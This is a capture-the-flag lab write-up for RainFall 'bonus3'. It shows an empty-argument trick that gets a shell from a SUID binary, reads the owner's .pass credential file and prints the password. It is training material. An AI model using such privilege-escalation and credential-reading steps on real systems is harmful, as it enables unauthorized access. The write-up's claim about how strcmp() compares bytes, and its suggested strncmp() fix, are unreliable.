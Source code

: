 # Level bonus 3

## Vulnerability

```strcmp()``` with empty argument

## Context

We find a binary with owner ```end``` and SUID.
```
bonus3@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
When run with 1 argument, it prints a new line. Run with 0 or 2 =< arguments it does nothing.
```
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 Yes!

bonus3@RainFall:~$ ./bonus3 No no
bonus3@RainFall:~$ ./bonus3 No no no
bonus3@RainFall:~$
```

## Solution

In summary, if you give the password for user ```end``` as argument to ```bonus3```, it opens a shell (well actually it segfaults).

But we don't know the password yet so...

Investigating with gdb we find just ```main()```. ```main()``` opens ```/home/user/end/.pass``` and copies the password into a buffer twice. Then ```strcmp()``` compares the buffer and argv[1], opening a shell if you have provided the matching password. However ```strcmp()``` will only read and compare as many bytes as len(argv[1]), so if we provide an empty string ```strcmp()``` returns 0, claiming the password and empty string are the same (for as many bytes as read - 0).
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```
Maybe should have used ```strncmp()``` instead of ```strcmp()```.

Anways Congratulations graduate!
